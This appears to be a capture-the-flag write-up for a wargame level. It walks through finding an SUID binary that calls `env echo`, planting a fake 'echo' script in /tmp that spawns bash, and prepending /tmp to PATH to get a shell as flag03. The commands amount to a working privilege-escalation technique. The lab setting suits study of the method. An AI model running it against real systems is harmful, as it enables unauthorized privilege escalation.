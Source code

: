 - We ran `ls -l` and we saw that level03 is owned by flag03 and that it has the SUID bit (which means that it'll be ran by flag03)
- We used Ghidra to decompile ./level03 and see the code
- We saw a system call that ran the command `/usr/bin/env echo EXPLOIT ME`
- Then, we created a bash script called "echo" in tmp directory
- `chmod +x /tmp/echo`
- In echo script we called bash :
```
#!/bin/sh

bash
```
- We added /tmp to the PATH (variable env) : `PATH=/tmp:$PATH`
- Finally we executed ./level03
- WE ARE FLAG03 !!!!!!! (getflag)
